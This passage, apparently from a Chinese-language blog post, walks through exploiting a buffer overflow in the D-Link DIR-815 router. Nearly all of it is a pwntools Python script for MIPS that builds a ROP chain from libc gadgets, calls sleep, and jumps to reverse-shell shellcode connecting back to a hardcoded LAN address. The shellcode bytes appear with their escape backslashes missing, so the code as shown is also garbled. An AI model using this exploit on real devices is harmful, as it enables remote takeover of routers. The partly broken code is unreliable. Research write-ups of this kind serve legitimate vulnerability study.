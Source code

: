 测试结果：获取shell

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://pup2y.github.io/2020/05/22/dir815-huan-chong-qu-yi-chu-lou-dong-zai-fen-xi/httpshell.png)

利用sleep调用shellcode(反弹shell)

```
#!/usr/bin/python
from pwn import *
context.endian = "little"
context.arch = "mips"

import requests
import sys

def get_payload(offset, libc_base):

    shellcode = ""
    shellcode += "xffxffx04x28xa6x0fx02x24x0cx09x09x01x11x11x04x28"
    shellcode += "xa6x0fx02x24x0cx09x09x01xfdxffx0cx24x27x20x80x01"
    shellcode += "xa6x0fx02x24x0cx09x09x01xfdxffx0cx24x27x20x80x01"
    shellcode += "x27x28x80x01xffxffx06x28x57x10x02x24x0cx09x09x01"
    shellcode += "xffxffx44x30xc9x0fx02x24x0cx09x09x01xc9x0fx02x24"
    shellcode += "x0cx09x09x01x79x69x05x3cx01xffxa5x34x01x01xa5x20"
    #shellcode += "xf8xffxa5xafx01xb1x05x3cxc0xa8xa5x34xfcxffxa5xaf"#192.168.1.177:31337
    shellcode += "xf8xffxa5xafx4fx91x05x3cxc0xa8xa5x34xfcxffxa5xaf"#192.168.79.145
    shellcode += "xf8xffxa5x23xefxffx0cx24x27x30x80x01x4ax10x02x24"
    shellcode += "x0cx09x09x01x62x69x08x3cx2fx2fx08x35xecxffxa8xaf"
    shellcode += "x73x68x08x3cx6ex2fx08x35xf0xffxa8xafxffxffx07x28"
    shellcode += "xf4xffxa7xafxfcxffxa7xafxecxffxa4x23xecxffxa8x23"
    shellcode += "xf8xffxa8xafxf8xffxa5x23xecxffxbdx27xffxffx06x28"
    shellcode += "xabx0fx02x24x0cx09x09x01"

    sleep = 0x56BD0 #sleep jr ra 0x7678edf4
    gadget1 = 0x57E50
    gadget2 = 0x3B8A8
    gadget3 = 0x14F28
    gadget4 = 0x1DD08#0x15C84#0xBB44

    payload = 'A' * offset #1009-9*4
    payload += 'A' * 4                           # s0
    payload += p32(libc_base + gadget2)       # s1 = mipsrop.tail() &amp;&amp; move $ra,$(sp+0x24) &amp;&amp; jr s2
    payload += p32(libc_base + sleep)         # s2 = jr $(sp+0x24)
    payload += 'A' * 4                        # s3
    payload += p32(libc_base + gadget4)       # s4 = mipsrop.find("move $t9,$s1") &amp;&amp; jr shellcode
    payload += 'A' * 4                           # s5
    payload += 'A' * 4                        # s6
    payload += 'A' * 4                        # s7
    payload += 'A' * 4                        # fp
    payload += p32(libc_base + gadget1)       # ra = mipsrop.find("li $a0,1") &amp;&amp; jr s1

    payload += 'B' * 0x24 # mipsrop.tail() 0x24B padding
    payload += p32(libc_base + gadget3)       # $(sp+0x24) = mipsrop.stackfinder() &amp;&amp; move s1,$(sp+0x18) &amp;&amp; jr $s4

    payload += 'c' * 0x18 # mipsrop.stackfinder() 0x18B padding
    payload += shellcode

    return payload

if __name__=="__main__":
```